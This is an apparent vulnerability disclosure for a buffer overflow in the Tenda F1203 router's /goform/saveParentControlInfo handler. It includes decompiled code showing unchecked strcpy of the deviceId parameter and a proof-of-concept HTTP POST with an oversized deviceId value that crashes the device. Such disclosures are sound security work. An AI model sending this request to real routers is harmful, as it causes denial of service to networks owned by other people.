

# Tenda F1203 V2.0.1.6 was discovered to contain a buffer overflow via the deviceId parameter in the saveParentControlInfo function.

## Description

`Tenda`  Router **F1203 V2.0.1.6** was discovered to contain a buffer overflow in the `httpd` module when handling `/goform/saveParentControlInfo` request.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2494.html

## Affected version



## Vulnerability details

This vulnerability lies in the `/goform/saveParentControlInfo` page，The details are shown below:

```
int __fastcall saveParentControlInfo(int a1)
{
  int v2; // $v0
  int v3; // $v0
  void *dest; // [sp+30h] [+30h] BYREF
  void *ptr; // [sp+34h] [+34h]
  int v6; // [sp+38h] [+38h]
  int v7; // [sp+3Ch] [+3Ch]
  int i; // [sp+40h] [+40h]
  int v9; // [sp+44h] [+44h]
  int v10; // [sp+48h] [+48h]
  char *nptr; // [sp+4Ch] [+4Ch]
  char *v12; // [sp+50h] [+50h]
  char *v13; // [sp+54h] [+54h]
  char *urls_value; // [sp+58h] [+58h]
  char *v15; // [sp+5Ch] [+5Ch]
  char *time_value; // [sp+60h] [+60h]
  char *v17; // [sp+68h] [+68h]
  char *deviceId_value; // [sp+6Ch] [+6Ch]
  char v19[64]; // [sp+70h] [+70h] BYREF
  char v20[512]; // [sp+B0h] [+B0h] BYREF
  int v21; // [sp+2B0h] [+2B0h] BYREF
  __int16 v22; // [sp+2B4h] [+2B4h] BYREF
  unsigned __int8 v23; // [sp+2B6h] [+2B6h] BYREF
  char v24[120]; // [sp+2B8h] [+2B8h] BYREF
  char v25[128]; // [sp+330h] [+330h] BYREF
  int v26; // [sp+3B0h] [+3B0h] BYREF
  int v27[5]; // [sp+3B4h] [+3B4h] BYREF
  int v28[8]; // [sp+3C8h] [+3C8h] BYREF
  int v29[8]; // [sp+3E8h] [+3E8h] BYREF

  memset(v19, 0, sizeof(v19));
  memset(v20, 0, sizeof(v20));
  v21 = 0;
  v22 = 0;
  v23 = 0;
  deviceId_value = (char *)websGetVar(a1, "deviceId", &unk_4CE8D8);
  v17 = (char *)websGetVar(a1, "enable", &unk_4CE8D8);
  time_value = (char *)websGetVar(a1, "time", &unk_4CE8D8);
  v15 = (char *)websGetVar(a1, "url_enable", &unk_4CE8D8);
  urls_value = (char *)websGetVar(a1, "urls", &unk_4CE8D8);
  v13 = (char *)websGetVar(a1, "day", &unk_4CE8D8);
  v12 = (char *)websGetVar(a1, "block", &unk_4CE8D8);
  nptr = (char *)websGetVar(a1, "connectType", &unk_4CE8D8);
  if ( atoi(nptr) == 1 && atoi(v12) == 1 )
    wl_l2_filter_add(deviceId_value);
  if ( *time_value )
  {
    v28[0] = 0;
    v28[1] = 0;
    v28[2] = 0;
    v28[3] = 0;
    v28[4] = 0;
    v28[5] = 0;
    v28[6] = 0;
    v28[7] = 0;
    v29[0] = 0;
    v29[1] = 0;
    v29[2] = 0;
    v29[3] = 0;
    v29[4] = 0;
    v29[5] = 0;
    v29[6] = 0;
    v29[7] = 0;
    sscanf(time_value, "%[^-]-%s", v28, v29);
    if ( !strcmp((const char *)v28, (const char *)v29) )
    {
      websWrite(
        a1,
        "HTTP/1.1 200 OK\nContent-type: text/plain; charset=utf-8\nPragma: no-cache\nCache-Control: no-cache\n\n");
      websWrite(a1, "{\"errCode\":%d}", 1);
      return websDone(a1, 200);
    }
  }
  v10 = 0;
  v9 = 0;
  i = 0;
  memset(v24, 0, sizeof(v24));
  memset(v25, 0, sizeof(v25));
  v7 = 0;
  v26 = 0;
  v6 = 0;
  ptr = malloc(0x254u);
  memset(ptr, 0, 0x254u);
  strcpy((char *)ptr + 2, deviceId_value);
  dest = malloc(0x254u);
  memset(dest, 0, 0x254u);
  *(_WORD *)dest = atoi(v17) != 0;
  strcpy((char *)dest + 2, deviceId_value);
  strcpy((char *)dest + 34, time_value);
  sscanf(
    v13,
    "%d,%d,%d,%d,%d,%d,%d",
    &v21,
    (char *)&v21 + 1,
    (char *)&v21 + 2,
    (char *)&v21 + 3,
    &v22,
    (char *)&v22 + 1,
    &v23);
  if ( !(_BYTE)v21
    && __PAIR16__(BYTE1(v21), 0) == BYTE2(v21)
    && __PAIR16__(HIBYTE(v21), 0) == (unsigned __int8)v22
    && __PAIR16__(HIBYTE(v22), 0) == v23
    && !*v12 )
  {
    for ( i = 0; i < 7; ++i )
      *((_BYTE *)dest + i + 66) = 1;
  }
  else
  {
    for ( i = 0; i < 7; ++i )
      *((_BYTE *)dest + i + 66) = *((_BYTE *)&v21 + i) != 0;
  }
  v2 = atoi(time_value);
  *((_DWORD *)dest + 19) = v2;
  strcpy((char *)dest + 80, urls_value);
  v3 = atoi(v15);
  *((_BYTE *)dest + 592) = v3 != 0;
  v10 = getparentcontrolinfo(0, &v26, ptr);
  if ( v10 <= 0 )
  {
    if ( !atoi(v17) && atoi(v12) != 1 )
    {
LABEL_28:
      free(ptr);
      free(dest);
      websWrite(
        a1,
        "HTTP/1.1 200 OK\nContent-type: text/plain; charset=utf-8\nPragma: no-cache\nCache-Control: no-cache\n\n");
      websWrite(a1, "{\"errCode\":%d}", 0);
      return websDone(a1, 200);
    }
    if ( *v12 )
    {
      v6 = atoi(v12);
      if ( v6 == 1 )
      {
        *(_BYTE *)dest = 0;
        *((_BYTE *)dest + 1) = 1;
        for ( i = 0; i < 7; ++i )
          *((_BYTE *)dest + i + 66) = 1;
        strcpy((char *)dest + 34, "00:00-24:00");
      }
    }
    v9 = bm_get_id_list("parent.control.id", v24, 30);
    if ( v9 )
    {
      if ( v9 >= 30 )
      {
        free(ptr);
        free(dest);
        websWrite(
          a1,
          "HTTP/1.1 200 OK\nContent-type: text/plain; charset=utf-8\nPragma: no-cache\nCache-Control: no-cache\n\n");
        websWrite(a1, "{\"errCode\":%d}", 1);
        return websDone(a1, 200);
      }
      for ( i = 0; i != 30; ++i )
      {
        if ( !*(&dest + i + 162) )
        {
          v26 = i + 1;
          break;
        }
      }
      GetValue("parent.control.id", v20);
      sprintf(v25, "%s,%d", v20, v26);
      SetValue("parent.control.id", v25);
      setparentcontrolinfo(v10, v26, dest);
    }
    else
    {
      SetValue("parent.control.id", "1");
      v26 = 1;
      setparentcontrolinfo(v10, 1, dest);
    }
  }
  else
  {
    if ( atoi(v17) )
    {
      *((_DWORD *)dest + 19) = *((_DWORD *)ptr + 19);
    }
    else
    {
      memcpy(dest, ptr, 0x254u);
      *(_BYTE *)dest = 0;
    }
    if ( *v12 )
    {
      v6 = atoi(v12);
      memcpy(dest, ptr, 0x254u);
      if ( v6 == 1 )
      {
        *(_BYTE *)dest = 0;
        *((_BYTE *)dest + 1) = 1;
      }
      else
      {
        *((_BYTE *)dest + 1) = 0;
      }
    }
    if ( !memcmp(ptr, dest, 0x254u) )
      goto LABEL_28;
    setparentcontrolinfo(v10, v26, dest);
  }
  free(ptr);
  free(dest);
  v27[0] = 0;
  v27[1] = 0;
  v27[2] = 0;
  v27[3] = 0;
  v27[4] = 0;
  sprintf((char *)v27, "op=%d", 5);
  send_msg_to_netctrl(14, v27);
  send_msg_to_netctrl(41, v27);
  CommitCfm();
  websWrite(
    a1,
    "HTTP/1.1 200 OK\nContent-type: text/plain; charset=utf-8\nPragma: no-cache\nCache-Control: no-cache\n\n");
  websWrite(a1, "{\"errCode\":%d}", 0);
  return websDone(a1, 200);
}
```


## POC

This POC can result in a Dos.

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.204.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Connection: close
Content-Length: 4106

deviceId=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaa
```

